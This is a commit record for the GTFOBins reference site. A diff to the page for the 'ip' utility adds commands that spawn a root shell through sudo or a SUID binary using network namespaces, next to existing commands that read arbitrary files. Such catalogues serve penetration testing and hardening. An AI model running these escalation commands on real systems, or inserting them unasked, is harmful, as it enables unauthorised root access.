

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/ip.md, in a window 1280 px wide. Shown: the whole page at 88% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 900 px from its top, so only the background shows below that.

Commit message:
Update ip with sudo and SUID

```diff
--- a/_gtfobins/ip.md
+++ b/_gtfobins/ip.md
@@ -10,8 +10,18 @@ functions:
     - code: |
         LFILE=file_to_read
         ./ip -force -batch "$LFILE"
+    - description: This only works for Linux with CONFIG_NET_NS=y.
+      code: |
+        ./ip netns add foo
+        ./ip netns exec foo /bin/sh
+        ./ip netns delete foo
   sudo:
     - code: |
         LFILE=file_to_read
         sudo ip -force -batch "$LFILE"
+    - description: This only works for Linux with CONFIG_NET_NS=y.
+      code: |
+        sudo ip netns add foo
+        sudo ip netns exec foo /bin/sh
+        sudo ip netns delete foo
 ---
```
